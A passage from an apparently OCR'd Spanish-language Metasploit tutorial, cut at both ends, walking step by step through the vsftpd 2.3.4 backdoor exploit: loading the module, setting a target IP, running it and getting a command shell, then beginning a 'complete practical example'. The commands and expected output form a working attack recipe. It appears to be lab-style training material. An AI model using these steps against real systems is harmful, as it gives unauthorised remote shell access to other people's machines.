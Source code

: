 ✅ Usar un exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ Ver opciones del módulo:

```bash
show options
```

✅ Configurar IP objetivo:

```bash
set RHOSTS 192.168.1.10
```

✅ Ejecutar el exploit:

```bash
run
```

---

✅ Resultado esperado:

Si la vulnerabilidad existe:

```
[*] Command shell session 1 opened
```

¡Ya tienes acceso!

---

### **7️⃣ Ejemplo práctico completo (real y fácil)**

✅ 🧭 Escenario:

✔ Objetivo vulnerable: vsftpd 2.3.4 en IP 192.168.1.10

✅ PASOS:

✅ 1️⃣ Abrir Metasploit

```bash
msfconsole
```

✅ 2️⃣ Buscar exploit

```bash
search vsftpd
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```
